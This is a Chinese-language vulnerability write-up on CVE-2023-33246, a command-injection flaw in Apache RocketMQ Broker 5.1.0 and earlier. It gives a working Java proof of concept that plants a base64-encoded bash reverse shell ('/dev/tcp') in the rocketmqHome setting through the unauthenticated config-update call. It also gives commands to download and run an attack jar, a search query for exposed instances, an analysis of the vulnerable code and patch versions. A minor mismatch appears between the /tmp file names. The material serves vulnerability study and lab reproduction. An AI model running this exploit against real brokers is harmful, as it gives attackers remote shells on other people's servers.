

# Apache RocketMQ Broker 远程命令执行漏洞 CVE-2023-33246

## 漏洞描述

Apache RocketMQ 是一个分布式消息平台。

Apache RocketMQ RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

参考链接：

- https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp
- https://github.com/I5N0rth/CVE-2023-33246
- https://github.com/Le1a/CVE-2023-33246
- https://paper.seebug.org/2081/
- https://xz.aliyun.com/news/12137
- https://xz.aliyun.com/news/12035

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## 网络测绘

```
title="RocketMQ"
```

## 环境搭建

Vulhub 执行如下命令启动一个 RocketMQ broker 5.1.0:：

```
docker compose up -d
```

环境启动后，RocketMQ 的 Broker 将会监听在 10911 端口。

## 漏洞复现

使用 `IDEA` 或 `Eclipse` 等 `IDE` 新建一个 `Maven` 项目，导入依赖：

```java
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC 如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String shellHost = "your-ip";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待 30 秒左右，将会收到反连请求。



---
**2025.02.10 更新**

该漏洞存在于 RocketMQ 的 Broker 组件的配置更新功能中。Broker 组件在配置更新接口中缺乏适当的身份认证和输入验证，攻击者可以修改配置值。

这个漏洞之所以特别危险，是因为 RocketMQ 的 filter server 机制。RocketMQ 每 30 秒会执行一次 filter server，执行方式是通过运行 shell 命令。这个命令是通过字符串拼接构造的，其中包含了来自配置中的 `rocketmqHome` 值。由于攻击者可以控制这个配置值，且这个值在构造命令时没有经过适当的过滤，因此导致了命令注入漏洞。

我们可以使用 Vulhub 项目 [rocketmq-attack](https://github.com/vulhub/rocketmq-attack) 来复现漏洞并执行任意命令：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.0/rocketmq-attack-1.0-SNAPSHOT.jar
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target your-ip:10911 --cmd "touch /tmp/awesome_poc"
```


等待最多 30 秒后，可见 `touch /tmp/success` 命令已成功执行：


## 漏洞分析

PoC 对 `filterServerNums` 属性和 `rocketmqHome` 属性进行了修改。

为什么要修改 `filterServerNums` 属性：如果配置的 `filterServerNums` 为 0，计算得出的 `more` 也会是 0，因此无法进入 `callShell` 方法执行命令。

```
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改 `rocketmqHome` 属性：在构建命令的时候，最终会调用 `splitShellString` 方法按照空格对参数进行分割，所以不可以是 `NamesrvAddr` 参数，只能是开头的 `rocketmqHome` 参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```

## 漏洞修复

目前官方已发布安全修复更新，受影响用户可以升级到 Apache RocketMQ 5.1.1 或者 4.9.6。 https://rocketmq.apache.org/download/
